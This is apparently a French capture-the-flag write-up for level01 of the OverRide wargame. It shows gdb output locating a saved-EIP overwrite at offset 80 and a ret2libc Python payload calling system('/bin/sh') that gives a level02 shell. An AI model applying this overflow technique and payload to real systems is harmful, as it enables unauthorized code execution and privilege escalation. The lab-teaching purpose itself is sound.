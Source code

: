 # Level 01

```
(python -c 'print("dat_wil\n" + "a" * 80 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")') > /tmp/lvl1
```

## Solution :

On va utiliser un exploit ret to libc.

D'abord on peu voir que fgets peut cree un debordement de tampon, 2 fgets sont utiliser donc le premier attend dat_wil le second admin sauf que cela ne fait rien.
Comme le deuxieme fgets fait une taille de 100 mais que pass a une taille de 64 cela cree un debordement de tampon, voyons voir ce que cela ecrase :

```
gdb ./level01
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers 
eax            0x1	1
ecx            0xffffffff	-1
edx            0xf7fd08b8	-134412104
ebx            0x33634132	862142770
esp            0xffffd710	0xffffd710
ebp            0x63413563	0x63413563
esi            0x0	0
edi            0x41346341	1093952321
eip            0x37634136	0x37634136
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 

```

eip est ecrasé, a 0x37634136 :

-   0x37634136 -> to_ascii -> 7cA6 
-   6Ac7 = 80 dans notre padding

Maintenant recuperont l'adresse de system et de /bin/sh pour cree notre payload 
```
System:
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>

/bin/sh:
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
```

### Payload :

```
level01@OverRide:~$ (python -c 'print("dat_wil\n" + "a" * 80 + "\xd0\xae\xe6\xf7" + "----" + "\xec\x97\xf8\xf7")') > /tmp/lvl1

level01@OverRide:~$ cat /tmp/lvl1 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```